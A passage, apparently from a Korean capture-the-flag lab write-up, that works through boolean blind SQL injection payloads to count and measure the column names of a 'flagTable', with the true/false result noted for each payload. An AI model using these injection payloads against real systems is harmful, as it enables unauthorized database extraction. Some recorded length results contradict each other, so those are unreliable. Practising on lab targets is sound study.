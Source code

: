 ## 4. COLUMN
### 4.1. 개수 확인
1. **normaltic' and ((select count(column_name) from information_schema.columns where table_name = 'flagTable') < 5) #**
-> O  
1. **normaltic' and ((select count(column_name) from information_schema.columns where table_name = 'flagTable') < 3) #**
-> O  
1. **normaltic' and ((select count(column_name) from information_schema.columns where table_name = 'flagTable') < 2) #**
-> X  
1. **normaltic' and ((select count(column_name) from information_schema.columns where table_name = 'flagTable') = 2) #**
-> O  

### 4.2. 글자수 확인
#### 4.2.1. 1번째
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1))) < 10) #**
-> O  
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1))) < 5) #**
-> O  
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1))) < 3) #**
-> X  
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1))) = 4) #**
-> X  
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1))) = 3) #**
-> X  
-> 🤔 혹시 idx?

#### 4.2.2. 2번째
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1))) < 10) #**
-> O  
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1))) < 5) #**
-> O  
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1))) < 3) #**
-> X  
1. **normaltic' and ((char_length((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1))) = 4) #**
-> O  
-> 🤔 혹시 flag
